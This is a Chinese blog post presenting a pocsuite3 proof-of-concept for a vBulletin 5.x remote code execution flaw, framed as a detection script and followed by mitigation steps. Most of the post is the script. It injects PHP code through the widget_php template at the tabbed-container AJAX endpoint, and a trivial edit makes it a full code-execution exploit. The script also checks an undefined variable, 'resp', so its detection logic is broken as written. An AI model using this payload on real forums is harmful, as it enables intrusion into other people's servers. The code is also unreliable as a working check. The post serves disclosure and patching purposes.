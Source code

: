 ```yaml
---
title:vBulletin 5.x RCE 检测脚本
categories: [dev]
comments: true
---
```


#### 参考链接：利用vBulletin：“补丁失败的故事”
> https://blog.exploitee.rs/2020/exploiting-vbulletin-a-tale-of-patch-fail/


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pocsuite3.api import requests
from pocsuite3.api import register_poc
from pocsuite3.api import Output, POCBase, logger
from re import findall
import ssl

ssl._create_default_https_context = ssl._create_unverified_context

class TestPOC(POCBase):
    vulID = ''
    version = '5.x'
    author = ['南方有梦']
    vulDate = ''
    createDate = ''
    updateDate = ''
    references = ['']
    name = 'vBulletin 5.x RCE'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = ''
    desc = '''
    '''

    def _verify(self):
        result = {}
        target = '{u}/ajax/render/widget_tabbedcontainer_tab_panel'.format(u=self.url)
        data = "subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();"
        try:
            response = requests.get(url=target, data=data, verify=False)
            if resp.status_code == 200 and 'PHP API' in resp.text:
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = target
        except Exception as e:
            #print(e)
            logger.error(f"connect target '{self.url} failed!'")
        return self.parse_attack(result)

    def _attack(self):
        return self._verify()

    def parse_attack(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register_poc(TestPOC)
```
### 漏洞检测脚本 Github地址：

> https://github.com/hackgov/article/blob/master/vBulletin%205.x%20RCE.py
>
> #### 基于POCsuite3框架运行


#### 修复建议
`此修补程序将禁用您论坛中的PHP小部件，并可能破坏某些功能，但在vBulletin发布补丁之前，将使您免受攻击。`

> 转到vBulletin管理员控制面板。
> 单击左侧菜单中的“设置”，然后单击下拉菜单中的“选项”。
> 选择“常规设置”，然后单击“编辑设置”
> 查找“禁用PHP，静态HTML和广告模块呈现”，设置为“是”，点击“保存”